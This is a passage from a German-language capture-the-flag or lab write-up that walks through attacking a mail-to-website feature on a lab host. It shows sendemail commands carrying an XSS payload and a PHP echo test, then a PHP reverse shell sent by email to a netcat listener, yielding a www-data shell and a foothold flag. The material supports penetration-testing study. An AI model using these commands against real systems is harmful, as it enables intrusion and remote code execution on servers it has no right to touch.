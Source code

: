 
### Versuch 2: Script Injection

**Ziel:** Prüfen, ob der Mechanismus zur Anzeige von E-Mails auf der Webseite anfällig für Script-Injection oder unsachgemässe Eingabeverarbeitung ist.

```.shell!
┌──(labadmin㉿Alduin)-[~]
└─$ sendemail -f "attacker@example.com" -t "bugs@robstargames.com" -u "<script>alert('xss')</script>" -m "<h1>Test HTML injection</h1>" -s 192.168.22.65:25 -o tls=no
Nov 23 11:26:17 alduin sendemail[3219209]: Email was sent successfully!
```

**Resultat:** ==Erfolgreich, `alert('xss')` wird ausgeführt.==


### Versuch 3: PHP-Code-Execution

Als nächstes wurde getestet, ob PHP-Code auch ausgeführt wird. Dazu wurde ein einfacher PHP `echo` verwendet.

**Ziel:** Prüfen, ob PHP-Code ausgeführt wird.

```shell!
┌──(labadmin㉿Alduin)-[~]
└─$ sendemail -f "attacker@example.com" -t "bugs@robstargames.com" -u "Subject" -m "<?php echo 'test'; ?>" -s 192.168.22.65:25 -o tls=no
Nov 23 11:28:27 alduin sendemail[3219209]: Email was sent successfully!
```

**Resultat:** ==Erfolgreich==, `string` wird angezeigt.


### Exploit: PHP-Reverse-Shell

Als exploit wurde eine generierte Reverse-Shell von [revshells.com](https://revshells.com)(PentestMonkey
version) auf port `9000` verwendet. Um das Senden zu vereinfachen wurde die PHP-Reverse shell in eine Datei namens revshell.php gepackt. So kann im Kommando `cat` verwendet werden und der Befehl wird nicht unnötig lang.


1. Start `netcat` listener auf port `9000`
```.shell!
nc -lvnp 9000
```

2. Sende PHP-Exploit (gespeichert in `revshell.php`) mit `sendmail`
``` {.bash}!
sendemail -f 69420@example.com -t bugs@robstargames.com -u 'Subject' -m "$(cat revshell.php)" -s 192.168.22.65 -o tls=no
```

3. Website aktualisiern: Die Reverse-Shell wird erfolgreich ausgelöst.
Information zum Benutzer: `whoami` zeigt angemeldeter Benutzer ist `www-data`.

**Gefundene Flag:** ==Foothold Flag `foothold.txt`==


## Benutzerrechte eskalieren (User Flag)
